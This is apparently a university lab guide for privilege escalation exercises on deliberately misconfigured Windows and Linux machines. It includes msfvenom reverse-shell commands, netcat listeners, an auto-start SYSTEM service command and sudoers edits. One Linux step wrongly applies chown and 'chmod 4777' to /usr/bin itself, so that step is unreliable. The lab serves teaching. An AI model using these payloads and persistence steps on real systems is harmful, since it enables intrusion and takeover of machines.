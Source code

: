 # Security First Principles: Least Privilege Labs
Created for DSU's Cyber Operations I course

| Box Name | Type |
| -------- | ------- |
| Linux Exercises | Kali 2023.3 |
| Windows Exercises | Windows 10 Pro build 19044 |
* Windows Defender is disabled via Group Policy on the Windows Exercises box.

## Lab Exercise 1: Widnows Horizontal/Vertical PrivEsc
### Configuration
#### Horizontal PrivEsc via Unquoted Service Path
1. Add two additional users the box, with different passwords. One should be a standard user and the other should be an administrator. Use the administrator-level user for the following steps.
2. Create a "Step 4" folder on the desktop of the selected user.
3. Create a path in Program Files three folders deep with a dummy service executable (`C:\Program Files\[Level 1 Name]\[Level 2 Name]\[Dummy Service Executable]`).
     * Ensure the `Level 2 Name` contains a space (ex. `Automated Service`)
     * This dummy executable won't be used, so pretty much any executable that isn't a shell works. I used `iexplore.exe`.
5. Edit the `Level 1 Name` folder properties to grant all users write permission (Properties > Security > Users > Edit > Write).
6. Create a new registry key in `HKLM\SYSTEM\CurrentControlSet\Services`. This key will be the service name.
7. Add the following values to the key:

    | Name | Type | Data |
    | -------- | ------- | ------- |
    | (Default) | REG_SZ | (value not set) |
    | DisplayName | REG_SZ | [Service Name] |
    | ErrorControl | REG_DWORD | 0x00000001 (1) |
    | ImagePath | REG_EXPAND_SZ | [Path to Dummy Service Executable **without quotes**] |
    | ObjectName | REG_SZ | .\\[User Name] |
    | Start | REG_DWORD | 0x00000002 (2) |
    | Type | REG_DWORD | 0x00000010 (16) |

8. Restart the box.
9. Open the Services MMC snap-in. The `[Service Name]` should appear in the list. Ensure the startup type is set to Automatic so it executes when the box starts.

#### Vertical PrivEsc
1. Temporarily elevate the service created in Horizontal PrivEsc to system (Properties > Log on > Log on as: > Local System account).
2. Get a SYSTEM shell by following the steps in [Horizontal PrivEsc Exploitation](#Horizontal-PrivEsc-via-Unquoted-Service-Path).
3. Create the "Step 6" folder in C:\Windows\System32.
4. Restore the service created in Horizontal PrivEsc to running as the selected user (Properties > Log on > Log on as: > This account: > [select account via Browse and provide password]).

### Exploitation
#### Horizontal PrivEsc via Unquoted Service Path
1. Log on to the second user created in Configuration step 1.
2. Create a simple TCP reverse shell with `msfvenom` on the Linux Exercises box:
      * In the example above, this would be `Automated.exe`.
      * There is a preconfigured binary with the IP address of the Linux Exercises box and name `Automated.exe` in the Windows PrivEsc archive in the repo.
          * Password: `infected`

```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP address of Linux Exercises box> LPORT=1337 -f exe -o [First word of Level 2 Name].exe
```

2. SCP the generated file from the Linux Exercises box to `C:\Program Files\[Level 1 Name]` on the Windows Exercises box.
3. Start a Netcat listener on the Linux Exercises box with `nc -nvlp 1337`.
4. Restart the Windows Exercises box. A Windows shell should spawn in the Netcat session with the permissions of the first user. Use `whoami` to verify this.

#### Vertical PrivEsc
1. Get an administrator shell by following the steps in [Horizontal PrivEsc Exploitation](#Horizontal-PrivEsc-via-Unquoted-Service-Path).
2. Create another simple TCP reverse shell with `msfvenom` on the Linux Exercises box, but it listens on a different port and can use any file name:

```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP address of Linux Exercises box> LPORT=1338 -f exe -o [Filename].exe
```

3. SCP the generated file from the Linux Exercises box to the Windows Exercises box. The location is insiginficant.
4. On the administrator shell, create a SYSTEM-level service that runs the file automatically on startup:

```
sc create [ServiceName] binPath= "[C:\Path\To\New\Shell.exe]" start= auto
```

5. Start a Netcat listener on the Linux Exercises box with `nc -nvlp 1338`.
6. Restart the Windows Exercises box. A Windows shell should spawn in the Netcat session with the permissions of SYSTEM. Use `whoami` to verify this.

## Lab Exercise 2: Linux Horziontal PrivEsc via SUID
### Configuration
1. Add two additional users the box, with different passwords. Only one of these users should be allowed to use `sudo`. Use the sudo-enabled user for the following steps.
2. Create a "Step 4" folder on the desktop of the first user.
3. Build the modified Bash shell in the Linux PrivEsc/Lab 2 folder in the repo with `./configure` and `make`. Name it `shell`.
      * This modification always runs the Bash shell in privileged mode (so that the SUID bit won't be [ignored by default](https://www.gnu.org/software/bash/manual/bash.html)).
      * A pre-built `shell` for the Linux Exercises box is also in the folder.
4. Place the `shell` in the `/usr/bin` folder.
5. Set the owner and group (if applicable) and the SUID bit on the file:
      * If set correctly, permissions should be `-rwSrwxrwx` and the user and group will be the first user.

```
chown [first user] /usr/bin
chgrp [first user] /usr/bin
chmod 4777 /usr/bin
chmod u-x /usr/bin
```

### Exploitation
1. Log on to the second user created in Configuration step 1.
2. Execute the `/usr/bin/shell` file. A Bash shell should spawn with the permissions of the first user. Use `whoami` to verify this.

## Lab Exercise 3: Linux Vertical PrivEsc via visudo
### Configuration
1. Using `sudo` as the first user, create a "Step 5" folder in the home directory of the root user.
2. Use `visudo` to edit the `/etc/sudoers` file. Add a line for your second user to allow them to run `visudo` beneath the root user:
      * A preconfigured `/etc/sudoers` file is `sudoers.old` in the Linux PrivEsc/Lab 3 folder in the repo as well.

```
# User privilege specification
root	ALL=(ALL:ALL) ALL
[second user name]	ALL=/usr/sbin/visudo
```

3. Save the file

### Exploitation
1. Run `visudo` as the second user.
2. Append `,/usr/bin/su` to the privilege specifcation for the second user:
      * A preconfigured `/etc/sudoers` file is `sudoers` in the Linux PrivEsc/Lab 3 folder in the repo as well.

```
# User privilege specification
root	ALL=(ALL:ALL) ALL
[second user name]	ALL=/usr/sbin/visudo,/usr/bin/su
```

3. Save the file
4. Run `sudo su` as the second user. A root shell will spawn.

## Puzzler: Correcting PrivEsc Vulnerabilities
